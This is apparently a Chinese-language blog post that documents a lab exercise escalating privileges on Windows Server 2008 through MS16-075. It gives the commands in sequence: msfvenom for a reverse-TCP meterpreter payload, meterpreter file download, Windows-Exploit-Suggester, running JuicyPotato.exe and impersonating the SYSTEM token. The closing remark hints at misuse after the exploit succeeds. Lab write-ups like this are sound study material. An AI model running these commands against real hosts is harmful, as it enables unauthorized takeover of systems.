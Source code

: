 # ms-16075提权Windows Server 2008


>光看网上的文章是不够的，还是要多动手才行


#### ms16-075漏洞简介
Windows SMB 服务器特权提升漏洞（CVE漏洞编号：CVE-2016-3225）当攻击者转发适用于在同一计算机上运行的其他服务的身份验证请求时，Microsoft 服务器消息块 (SMB) 中存在特权提升漏洞，成功利用此漏洞的攻击者可以使用提升的特权执行任意代码。
漏洞详情，[请戳这里](https://docs.microsoft.com/zh-cn/security-updates/Securitybulletins/2016/ms16-075)




#### 开始动手
1.假设是msfvenom生成木马，目标执行了，监听会话，获得meterpreter会话权限

```bash
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.0.103 lport=4444 -f exe > shell.exe
```

2.先看一下当前权限(确保我没有作弊)
![](http://image.xpshuai.cn/ms16075_download.png)

3.查看系统信息，并导出
```bash
# (进入cmd)
shell
chcp   65001     # 将编码格式改为utf-8中文
systeminfo >> c:\out.txt   将系统信息输出到out.txt文件
```

4.在meterpreter把结果文件下载到本地

```bash
download   D:\\xxxx\\upload\\out.txt   /tmp/out.txt    
```
![](http://image.xpshuai.cn/ms16075_download.png)



5.这里选择`Windows-Exploit-Suggeste`提权辅助工具，对结果文件在本地进行分析, 查找系统未打补丁有哪些
```
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py -i out.txt -d 2020-05-09-mssb.xls -l  # -i是systeminfo的结果文件
```
![](http://image.xpshuai.cn/ms16075_poc.png)

可以看到可能存在ms16-075漏洞
![](http://image.xpshuai.cn/ms16075_in.png)


6.开始验证
```bash
# 上传ms16-075的exp: JuicyPotato.exe至靶机
upload /root/Desktop/JuicyPotato.exe  C:\\

execute -cH -f  C:\\JuicyPotato.exe    # 执行poc(前面已经把poc上传到目标了), 创建新的进程
impersonate_token "NT AUTHORITY\\SYSTEM"    # 窃取, 假冒目标主机上的可用令牌

```
![](http://image.xpshuai.cn/ms16075_in.png)

7.查看当前权限，提取成功
```bash
getuid                # 查看当前权限
```
![](http://image.xpshuai.cn/ms16075_ok.png)


8.后面的事情，嘿嘿你懂得



>这里只是没有防护的情况下的一次简单实验，有点简陋有点水





---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://geoer.cn/ms-16075%E6%8F%90%E6%9D%83windows-server-2008/  

